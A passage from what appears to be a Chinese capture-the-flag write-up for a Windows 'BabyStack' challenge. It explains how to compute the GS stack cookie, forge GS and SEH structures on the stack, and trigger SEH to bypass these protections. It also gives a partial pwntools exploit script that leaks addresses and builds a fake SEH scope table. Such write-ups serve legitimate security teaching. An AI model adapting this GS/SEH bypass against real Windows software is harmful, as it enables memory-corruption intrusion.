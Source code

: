 ![1571937941989](./index_files/1571937941989.png)

由此可知，
$$
cookie = *MAINaddress - 03963 + 7c004 = *MAINaddress + 786a1
$$
因此，我们可以通过这个值伪造GS，从而绕过GS。

而栈上值的地址可以通过栈基址加偏移获取。

在栈上伪造SEH、GS之后，就可以通过栈溢出或者读非法地址来触发SEH了。因为再次构造栈溢出怕会覆盖之前构造的SEH，因此直接触发任意地址读写，然后输入任一字符就可以了。



## EXP

由于比赛服务器关闭，因此通过windows配置开放SSH给ubuntu，进行测试。

```python
from pwn import *
context.log_level="debug"
p=remote("192.168.43.254",22)
p.sendline("BabyStack.exe")
p.recvuntil("stack address = ")
stack_addr=int(p.recvuntil("\n").strip(),16)
p.recvuntil("main address = ")
main_addr=int(p.recvuntil("\n").strip(),16)
I_know = hex(main_addr+0x4BF3)[2:].upper().rjust(8,"0")
#print hex(stack_addr),hex(main_addr)

stack1 = stack_addr - 0x3C
stack2 = stack_addr - 0x38
stack3 = stack_addr - 0x34
stack4 = stack_addr - 0x30
shell = main_addr + 0x4903
SEH_scope_table = p32(0xFFFFFFE4)
SEH_scope_table += p32(0)
SEH_scope_table += p32(0xFFFFFFC0)
SEH_scope_table += p32(0)
SEH_scope_table += p32(0xFFFFFFFE)
SEH_scope_table += p32(shell)
SEH_scope_table += p32(shell)
cookie_addr = main_addr + 0x786A1
GS_addr=stack_addr - 0x18

#pause()

p.recvuntil("So,Can You Tell me what did you know?\n")
p.sendline(I_know)

p.recvuntil("Do you want to know more?\n")
p.sendline("yes")
p.recvuntil("Where do you want to know?\n")
p.sendline(str(cookie_addr))
p.recvuntil("is ")
cookie=int(p.recvuntil("\n"),16)
```